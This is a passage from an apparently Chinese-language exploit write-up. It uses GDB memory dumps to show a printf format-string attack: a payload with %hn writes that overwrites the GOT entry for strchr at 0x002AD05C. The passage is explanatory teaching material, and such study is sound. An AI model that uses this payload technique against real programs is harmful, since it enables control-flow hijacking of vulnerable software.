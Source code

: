 0x03 实例片段
=========

* * *

下面是内存的栈内存的变化情况来展示攻击的过程。

在调用printf时，执行call指令之前:

```
(gdb) uu $eip
=> 0x2a9188:    call   0x2a8880 <printf@plt>
   0x2a918d:    lea    eax,[ebx-0x1fb4]
   0x2a9193:    mov    DWORD PTR [esp],eax

```

此时的堆栈如下：

```
(gdb) dd $esp
0xBFFF4FE0 : BFFF501C 58601366 4049BEFE EF0F16F4
0xBFFF4FF0 : BFC8B039 004E6927 BFFF522C BFFF5024
0xBFFF5000 : BFFF5233 BFFF5026 58601366 4049BEFE
0xBFFF5010 : EF0F16F4 BFC8B039 00000001 342E3135
0xBFFF5020 : 33313239 2D202C37 39312E30 38373832
0xBFFF5030 : 31253A20 25633632 68243732 3432256E
0xBFFF5040 : 63363539 24383225 41416E68 002AD05E
0xBFFF5050 : 002AD05C 00280000 00470048 00000006

```

其中第一个参数BFFF501C，就是攻击字符串，从以下代码可以看到，目标地址是第27、28参数的两个地址：

```
(gdb) db BFFF501C
0xBFFF501C : 35 31 2E 34 39 32 31 33 - 37 2C 20 2D 30 2E 31 39 51.492137, -0.19
0xBFFF502C : 32 38 37 38 20 3A 25 31 - 32 36 63 25 32 37 24 68 2878 :%126c%27$h
0xBFFF503C : 6E 25 32 34 39 35 36 63 - 25 32 38 24 68 6E 41 41 n%24956c%28$hnAA
0xBFFF504C : 5E D0 2A 00 5C D0 2A 00 - 00 00 28 00 48 00 47 00 ^.*.\.*...(.H.G.

```

第27个参数是002AD05E，第28个参数是002AD05C，实际上是修改002AD05C处的4个字节。 目标地址002AD05C在调用printf之前的值是009843E0：

```
(gdb) dd 0x002AD05C
0x002AD05C : 009843E0 002A89B6 00921C00 002A89D6
0x002AD06C : 0099C620 002A89F6 00A07EC0 002A8A16
0x002AD07C : 009EF0D0 009371C0 009EEBD0 002A8A56
0x002AD08C : 00000000 002AD090 00000000 00000000

```

地址009843E0就是函数strchr，可以查看一下：

```
(gdb) uu 0x09843E0
   0x9843e0 <strchr>:   push   edi
   0x9843e1 <strchr+1>: mov    eax,DWORD PTR [esp+0x8]
   0x9843e5 <strchr+5>: mov    edx,DWORD PTR [esp+0xc]
   0x9843e9 <strchr+9>: mov    dh,dl

```

